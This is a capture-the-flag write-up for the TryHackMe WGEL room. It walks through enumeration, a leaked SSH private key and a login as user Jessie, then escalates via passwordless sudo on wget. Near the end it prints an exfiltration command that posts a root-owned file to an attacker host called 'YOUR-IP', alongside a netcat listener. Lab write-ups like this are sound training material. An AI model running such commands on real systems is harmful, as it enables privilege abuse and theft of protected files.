










🚩 TryHackMe – WGEL CTF Write-up
Room: WGEL CTF
📺 Full Video Walkthrough
🔎 Initial Recon
I launched an Nmap scan to check for open ports and services running on the target. This discovered ports 22 (SSH) and 80 (HTTP).

🌐 Apache Default Page
Browsing to the target's IP showed the default Apache2 Debian page, confirming the web server is active.

📂 /sitemap Discovery
I discovered the /sitemap path, which often contains hidden links or directories not meant for public access.

🛠️ Gobuster Enumeration
Running Gobuster revealed additional hidden resources and confirmed directory indexing was possible.

👀 Developer Comment
In the page source, I found a comment: "Jessie don't forget to update the website," providing a potential username.

🔑 SSH Key Disclosure
I found an exposed private SSH key in one of the directories, a critical misconfiguration.

🔐 SSH Login
Using the private key and the username Jessie, I successfully established an SSH connection.

🧪 Sudo Privileges
Running sudo -l showed that Jessie could run wget as root without a password.

📜 User Flag
I retrieved the user flag from Jessie's home directory, confirming my foothold.

⚡ Privilege Escalation via wget
I used --post-file to exfiltrate the root flag to my local listener via HTTP.
# Attacker:
nc -lvnp 80
# Victim:
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://YOUR-IP🏋 Root Flag
The root flag was successfully received on my listener. System owned.

✅ Summary
This room involved web enumeration, finding leaked credentials, and exploiting sudo misconfigurations to gain root access.